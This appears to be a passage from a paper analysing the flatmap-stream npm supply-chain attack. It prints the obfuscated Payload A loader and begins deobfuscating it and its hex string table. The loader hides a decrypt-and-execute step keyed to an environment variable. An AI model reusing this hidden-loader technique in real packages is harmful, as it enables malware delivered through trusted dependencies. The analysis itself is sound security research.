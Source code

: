# Analysis of the attack

This section of the paper analyzes the three payloads of the attack.

## Payload A 

Payload A acts as the bootstrapper for the rest of the Payloads and was
appended to the `flatmap-stream` codebase in version 0.1.1. The
payload consists of the following code:

``` {.js xleftmargin="\\parindent" linenos="" fontsize="\\normalsize"}
! function() {
 try {
  var r = require,
   t = process;
  function e(r) {
   return Buffer.from(r, "hex").toString()
  }
  var n = r(e("2e2f746573742f64617461")),
   o = t[e(n[3])][e(n[4])];
  if (!o) return;
  var u = r(e(n[2]))[e(n[6])](e(n[5]), o),
   a = u.update(n[0], e(n[8]), e(n[9]));
  a += u.final(e(n[9]));
  var f = new module.constructor;
  f.paths = module.paths, f[e(n[7])](a, ""),
   f.exports(n[1])
 } catch (r) {}
}();
```

This code is unreadable, as it is still obfuscated. Let us walk through
it line by line, deobfuscating and analyzing it. Function `e`
converts a hexadecimal string to text. It is first used in line 8:

``` {.js xleftmargin="\\parindent" linenos="" fontsize="\\normalsize"}
var n = r(e("2e2f746573742f64617461"));
```

The hexadecimal string is equivalent to `./test/data`{.js}, and function
`r`{.js} is the function `require`{.js}. So, after renaming `n`{.js} to
`testData`{.js}, line 8 becomes as follows:

``` {.js xleftmargin="\\parindent" linenos="" fontsize="\\normalsize"}
var testData = require("./test/data");
```

This line `imports` an auxiliary data file. This data file contains
10 hexadecimal string literals. Next to them you can see their string
representation. Multiple of these strings are related to cryptography
and would raise suspicion should anyone see them in a module such as
`flatmap-stream`. Here are the contents of the data file:

``` {.js xleftmargin="\\parindent" linenos="" fontsize="\\normalsize"}
module.exports = [
 "75d4c...629", // Payload B
 "db673...6e1", // Payload C
 "63727970746f", // crypto
 "656e76", // env
 "6e706d...f6e", // npm_package_description
 "616573323536", // aes256
 "63726...6572", // createDecipher
 "5f636f6d70696c65", // _compile
 "686578", // hex
 "75746638" // utf8
]; 
```

[^1]: User's \@right9ctrl GitHub account is now deleted.
[^2]: Minification is the process of removing comments, non-essential
[^3]: Not to be confused with the malicious code payloads